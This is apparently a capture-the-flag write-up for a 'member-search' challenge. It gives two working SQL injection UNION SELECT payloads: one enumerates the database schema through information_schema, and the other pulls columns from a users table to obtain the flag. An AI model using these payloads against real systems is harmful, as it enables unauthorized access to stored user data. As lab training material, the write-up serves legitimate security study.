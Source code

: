 # member-search 

Page: `/index.php?page=member`  
Difficulty: 5/10

## Description

A search field allows us to search for members on the site.

## Exploit

This is just the same as [`image-search`](../sql_image-search/), but with a different table(s).

To get the tables/columns:
```sql
1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

To get the flag:
```sql
1 OR 1=1 UNION SELECT Commentaire, countersign FROM users
```

gg wp ez no re
